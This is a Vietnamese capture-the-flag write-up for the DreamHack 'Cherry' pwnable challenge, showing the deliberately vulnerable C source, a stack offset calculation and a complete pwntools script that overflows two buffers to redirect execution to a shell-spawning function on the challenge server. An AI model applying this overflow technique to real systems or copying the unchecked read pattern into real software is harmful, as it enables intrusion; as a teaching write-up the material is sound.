


# Cherry---Write-up-----DreamHack

Hướng dẫn cách giải bài Cherry cho anh em mới chơi pwnable.

**Author:** Nguyễn Cao Nhân aka Nhân Sigma

**Category:** Binary Exploitation

**Date:** 3/12/2025

## 1. Mục tiêu cần làm
Đầu tiên các bạn cần đọc thử xem file C của bài này nó được thực thi như thế nào để giải.

```C
// Name: chall.c
// Compile: gcc -fno-stack-protector -no-pie chall.c -o chall

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>
#include <fcntl.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


void flag() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};
  execve(cmd, args, NULL);
}

int main(int argc, char *argv[]) {
    int stdin_fd = 0;
    int stdout_fd = 1;
    char fruit[0x6] = "cherry";
    int buf_size = 0x10;
    char buf[0x6];

    initialize();

    write(stdout_fd, "Menu: ", 6);
    read(stdin_fd, buf, buf_size);
    if(!strncmp(buf, "cherry", 6)) {
        write(stdout_fd, "Is it cherry?: ", 15);
        read(stdin_fd, fruit, buf_size);
    }

    return 0;
}
```

Chúng ta cần chạy được khối lệnh if. Ghi đè `saved RIP` bằng địa chỉ `flag`. Đó là những việc chúng ta sẽ làm. Mình sẽ gợi ý là bài này chúng ta sử dụng **Double Buffer Overflow**.

## 2. Cách thực hiện

Ta chỉ cần quan tâm hàm `main` và `flag` thôi. Trong main thì nó khai báo 3 biến là `fruit[6]` `buf_size = 16` và `buf[6]`. Giờ nhìn tiếp vào lệnh read của nó. Nó sẽ lấy 16 byte từ phím bạn để nhập vào `buf`, và sau đó kiểm tra. 

`if(!strncmp(buf, "cherry", 6))`, nếu 6 byte đầu tiên của `buf` = `fruit` = `cherry` thì nó sẽ thực thi khối lệnh if này. Vậy nên payload đầu tiên chúng ta sẽ gửi đó là `cherry`. Sau đó nó sẽ bắt các bạn nhập vào `fruit`, nhưng các bạn đâu biết nên nhập bao nhiêu để đè tới `saved RIP` ? Vậy thì chúng ta hãy bắt tay vô tìm offset thôi. Bài này nó không có Canary



Nên chúng ta có thể tự tin tính nhẩm để ra. Để mình vẽ stack ra cho các bạn dễ hình dung. Khi chạy chúng nó bỏ từ trên xuống dưới nhưng mình sẽ lật ngược lại cho các bạn dễ hình dung.



Vì chúng ta nhập từ `fruit` nên cứ kệ mẹ `buf` đi. Giờ bắt đầu tính nhẩm nè : `fruit` là 6 + `buf_size` là 4 + `stdout_fd` là 4 + `stdin_fd` là 4 + `saved RBP` là 8 => tổng cộng là 26. Very simple.

Nhưng mà các bạn có để ý không là `read(stdin_fd, fruit, buf_size);` tức là các bạn chỉ được phép nhập 0x10 là 16 byte vô fruit thôi. Vậy làm sao để nhập được hơn 26 byte đây ? Câu trả lời là chúng ta sẽ ghi đè `buf_size` bằng 1 con số khác lớn hơn.

Như chúng ta thấy lần read đầu tiên `read(stdin_fd, buf, buf_size);` thì nó nhận tận 16 byte. Nhưng chúng ta chỉ cần 6 byte đầu để chạy được menu thôi, vậy chúng ta còn dư tận 10 byte để đè vô `buf_size`. Giờ hãy đè nó bằng code sau.

```Python
payload = b'cherry' # ghi vô buf
payload += b'A' * 6 # ghi vô fruit vì như stack trên
payload += p32(36) # thay đổi giá trị của buf_size thành 36 để nhập nhiều hơn
p.sendafter(b'Menu: ', payload)
```

Mình lấy p32(64) chứ không phải p64(64) vì p32() sẽ tạo ra 4 byte còn p64() sẽ tạo ra 8 byte. Giờ thì mình đã thành công ghi đè `buf_size` bằng 36 rồi. Giờ hãy bắt đầu coook payload 2 thôi.

```Python
payload = b'A' * 26 # 26 là offset đã tính như trên
payload += p64(flag_add)

p.sendafter(b'Is it cherry?: ', payload)
```

Vậy là xong `saved RIP` đã thành công bị đè bằng địa chỉ hàm `flag`, giờ chương trình buộc phải chạy hàm này cho nổ tung cái shellcode của bạn.

Thế là xong 1 bài đơn giản với **Double Buffer Overflow**, hãy cho mình 1 star để có động lực làm thêm write-up mới 🐧.


```Python
from pwn import *

#p = process('./chall')
p = remote('host8.dreamhack.games', 24507)
e = ELF('./chall')

flag_add = e.symbols['flag']

payload = b'cherry'
payload += b'A' * 6
payload += p32(36)
p.sendafter(b'Menu: ', payload)

payload = b'A' * 26
payload += p64(flag_add)

p.sendafter(b'Is it cherry?: ', payload)

p.interactive()
```
